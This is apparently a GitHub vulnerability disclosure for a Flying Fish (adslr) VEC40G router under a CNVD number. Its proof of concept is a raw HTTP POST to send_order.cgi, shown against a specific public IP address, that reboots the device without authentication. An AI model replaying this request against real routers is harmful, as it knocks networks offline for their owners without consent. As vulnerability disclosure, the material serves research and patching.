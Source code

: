Flying Fish has a command injection vulnerability

official website：http://www.adslr.com/

version:VEC40G

CNVD number:CNVD-2021-91411

POC：
```
POST /send_order.cgi?parameter=restart HTTP/1.1
Host: 113.9.163.91:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 20
Origin: http://113.9.163.91:8081/
Connection: close
Referer: http://113.9.163.91:8081/home/index.html
Cookie: 

{"restart":"reboot"}
```
Restart the device without logging in

![WPS图片(1)](https://github.com/shulao2020/cve/assets/135507126/1ba6d8a6-8fc7-4785-bcc3-4f66e112a082)

![WPS图片(2)](https://github.com/shulao2020/cve/assets/135507126/2a0eaa1c-0148-4896-b3f9-57b6ca64228c)

![WPS图片(3)](https://github.com/shulao2020/cve/assets/135507126/761a3f7b-f984-4919-9eb6-2070fc27dadd)
